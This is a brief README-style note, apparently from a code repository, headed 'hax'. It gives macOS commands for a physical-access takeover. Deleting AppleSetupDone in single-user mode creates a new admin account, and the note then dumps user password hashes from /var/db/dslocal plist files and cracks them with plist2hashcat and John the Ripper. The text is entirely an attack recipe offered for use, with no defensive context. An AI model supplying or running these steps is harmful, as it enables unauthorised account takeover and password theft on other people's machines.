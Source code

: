 # hax
hi:)
# new admin user in single user mode
mount -uw /
rm /var/db/AppleSetupDone
reboot
# execute in terminal with root access
cd path/to/hashcat
sudo ./plist2hashcat.py /var/db/dslocal/nodes/default/users/*USER*.plist
save output to sha-512.txt in /path/to/JTR/run
cd path/to/JTR/run
./john --show --format=PBKDF2-HMAC-SHA512 sha-512.txt
